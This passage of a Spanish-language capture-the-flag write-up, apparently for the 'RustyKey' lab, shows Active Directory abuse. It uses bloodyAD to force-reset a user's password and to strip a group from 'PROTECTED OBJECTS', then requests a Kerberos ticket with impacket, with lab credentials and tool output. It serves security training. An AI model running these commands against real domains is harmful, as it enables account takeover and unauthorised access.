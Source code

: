 Esto significa que el grupo `SUPPORT` tiene el derecho de modificar el registro y puede probar funciones relacionadas con la compresión/descompresión.

Si investigamos este `grupo` en `BloodHound` veremos lo siguiente:

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-10-15 131116.png" alt=""><figcaption></figcaption></figure>

Vemos que el usuario `EE.REED` pertenece a dicho grupo y recordemos que desde el usuario `IT-COMPUTER3` perteneciendo al grupo de `HELPDESK` podemos forzar le cambio de contraseña a dicho usuario, por lo que vamos ha realizar lo siguiente.

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' set password ee.reed 'P@ssw0rd!'
```

Info:

```
2025-10-15 12:18:51.999577 (-0700) +3.851476 +/- 0.015355 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 3.851476
[+] Password changed successfully!
```

Ahora habiendo cambiado la contraseña, vamos a solicitar un `TGT` de dicho usuario para tenerlo guardado de esta forma, pero nos dara error y esto puede ser por que tambien esta dentro del grupo `PROTECTED OBJECTS`, por lo que vamos a eliminarlo de esta forma:

```shell
ntpdate rustykey.htb ; python3 bloodyAD.py -k --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' remove groupMember 'PROTECTED OBJECTS' 'SUPPORT'
```

Info:

```
2025-10-15 12:24:52.569627 (-0700) +22.714649 +/- 0.014279 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 22.714649
[+] SUPPORT removed from PROTECTED OBJECTS
```

Ahora si solicitamos el `TGT` de nuevo:

```shell
ntpdate rustykey.htb ; impacket-getTGT rustykey.htb/'ee.reed':'P@ssw0rd!'
```

Info:

```
2025-10-15 12:25:13.429701 (-0700) +0.611923 +/- 0.014122 rustykey.htb 10.10.11.75 s1 no-leap
CLOCK: time stepped by 0.611923
/home/kali/Desktop/rustykey/bloodyAD/.venv/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in ee.reed.ccache
```
